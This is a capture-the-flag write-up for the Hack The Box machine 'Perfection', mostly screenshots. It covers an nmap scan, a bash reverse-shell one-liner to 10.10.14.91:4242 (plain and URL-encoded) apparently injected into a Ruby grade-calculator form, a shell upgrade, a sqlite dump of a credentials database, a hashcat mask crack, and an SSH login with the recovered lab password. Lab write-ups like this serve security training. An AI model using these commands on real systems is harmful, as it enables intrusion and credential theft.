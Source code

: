 # Perfection Write-up

<img src="https://labs.hackthebox.com/storage/avatars/57fc0f58916cb3ed8e793db071769d70.png" width="200" height="200">

##  Nmap

`nmap -sC -sV perfection.htb`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
    |_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
    80/tcp open  http    nginx
    |_http-title: 502 Bad Gateway
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Visit perfection.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/4ddecf13-024d-4b4a-b639-a7c8f614d947)

`perfection.htb/weighted-grade`

![image](https://github.com/zer00d4y/writeups/assets/128820441/143b1c47-9688-4429-923e-70f885b9a963)

Wappalyzer Ruby

![image](https://github.com/zer00d4y/writeups/assets/128820441/796cd7b9-4510-41b3-bf95-7a3a0039db5f)

![image](https://github.com/zer00d4y/writeups/assets/128820441/e3a312e6-40b0-439c-98ba-e9bb9d127c8b)

![image](https://github.com/zer00d4y/writeups/assets/128820441/e63b50c3-2697-41fe-916a-56e07e04e2a9)

![image](https://github.com/zer00d4y/writeups/assets/128820441/a5a65d54-a81a-48ca-82b3-a7f189e03369)

![image](https://github.com/zer00d4y/writeups/assets/128820441/61c5f7f4-4e29-48cb-87c1-48f9aac3ab61)

bash -c 'bash -i >& /dev/tcp/10.10.14.91/4242 0>&1

bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.91/4242+0>%261'

![image](https://github.com/zer00d4y/writeups/assets/128820441/23ec8526-0b18-49bf-b1f2-49bc24bdb763)

![image](https://github.com/zer00d4y/writeups/assets/128820441/583ba02d-ec4b-46ea-a614-9c096d09dfc1)

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm`

ctrl + z

`stty raw -echo; fg`

![image](https://github.com/zer00d4y/writeups/assets/128820441/0a989f9d-3fc2-42db-9685-fe58d14f5d5f)

![image](https://github.com/zer00d4y/writeups/assets/128820441/5e20af03-b52e-418d-b107-2845cb3b948f)

## Privilege Escalation

    sqlite3 pupilpath_credentials.db
    .databases
    .tables
    select * from users;

### hashcat

`hashcat -m 1400 -a 3 file_name> susan_nasus_?d?d?d?d?d?d?d?d?d`

### SSH

`ssh susan@10.10.11.253`

password: `susan_nasus_413759210`

![image](https://github.com/zer00d4y/writeups/assets/128820441/dac15776-dae7-4913-b3c3-2f148c367fd1)




